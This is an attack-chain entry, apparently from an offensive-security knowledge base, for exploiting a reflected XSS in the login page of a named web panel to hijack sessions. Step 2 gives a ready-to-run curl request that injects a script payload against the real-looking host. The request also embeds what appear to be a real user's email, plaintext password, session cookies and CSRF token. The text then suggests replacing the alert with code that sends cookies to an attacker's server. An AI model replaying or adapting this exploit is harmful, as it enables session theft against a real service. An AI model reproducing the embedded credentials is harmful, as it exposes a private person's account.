

---
tags:
  - xss
  - reflected-xss
  - web
  - session-hijacking
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Reflected-XSS-in-Login-Endpoint]]'
  - '[[procedures/Exploit-Reflected-XSS-with-Malicious-Payload]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:53.163Z'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in the
  StopTheHacker panel login page to inject JavaScript and steal session
  credentials.
skill_level: intermediate
impact_level: high
id: 7f06593e-1de6-4b91-aa16-b17484d33f25
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS in Login Page for Session Hijacking

Multi-stage attack chain demonstrating exploitation of a reflected cross-site scripting (XSS) vulnerability in the StopTheHacker panel's login page to execute arbitrary JavaScript and hijack user sessions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for inspection
- Proxy tool like Burp Suite for request crafting

### Target Environment

- Web application: StopTheHacker panel
- Endpoint: POST /login/process
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Direct access to the login page

### Initial Access Requirements

- No prior credentials needed
- Ability to submit login forms
- Victim must interact with the crafted malicious link or form

## Detailed Attack Procedures

### Step 1: Identify Reflected XSS in Login Endpoint
procedure: [[procedures/Identify-Reflected-XSS-in-Login-Endpoint]]

**Objective**: Examine the login form to confirm input reflection without sanitization, setting up for payload injection.

**Instructions**: Intercept the POST request to /login/process using a proxy tool. Observe that parameters like email and password are echoed back in the HTML response without proper encoding.

**Expected Output**: Response HTML containing unsanitized user input, such as reflected email or password values.

**Success Indicators**:
- Input parameters visible in response body
- No HTML entity encoding on reflected inputs

### Step 2: Exploit Reflected XSS with Malicious Payload
procedure: [[procedures/Exploit-Reflected-XSS-with-Malicious-Payload]]

**Objective**: Inject a JavaScript payload into the login request to execute arbitrary code in the victim's browser, enabling session cookie theft.

**Instructions**: Craft a malicious POST request by appending an XSS payload to the query string. Use the following command with curl or a similar tool to send the request:

Execute [[commands/send-malicious-login-post]] to inject the payload:

```bash
curl -X POST "https://panel.stopthehacker.com/login/process?e22ec\"><script>alert(1)</script>edff4caab65=1" \
  -H "Host: panel.stopthehacker.com" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:24.0) Gecko/20100101 Firefox/24.0" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Referer: https://panel.stopthehacker.com/login" \
  -H "Cookie: utma=154329338.42246299.1398423628.1398423628.1398425435.2; utmc=154329338; utmz=154329338.1398423628.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); sth_panel=G%2CbOpqGLFXVqHBPLdVJcD2; utma=66990511.534853050.1398423714.1398423714.1398427276.2; utmc=66990511; utmz=66990511.1398427276.2.2.utmcsr=stopthehacker.com|utmccn=(referral)|utmcmd=referral|utmcct=/; utmb=154329338.1.9.1398427271588; utmb=66990511.2.10.1398427276" \
  -H "Connection: keep-alive" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "email=robincool031%40gmail.com&password=259733%40ramani&login=&csrf=33ed08e46e14d0622ff36ad779654418"
```

Observe the response for payload reflection and execution of alert(1) in the browser.

**Expected Output**: Browser alert box popping up with '1', confirming JavaScript execution; potential for replacing alert with code to exfiltrate cookies.

**Success Indicators**:
- JavaScript alert executes
- Reflected payload visible in response HTML
- Ability to modify payload for cookie theft (e.g., document.cookie sent to attacker server)

## Attack Chain Summary

### Key Achievements

1. Identified unsanitized input reflection in login endpoint
2. Successfully injected and executed XSS payload
3. Enabled potential session hijacking via credential theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
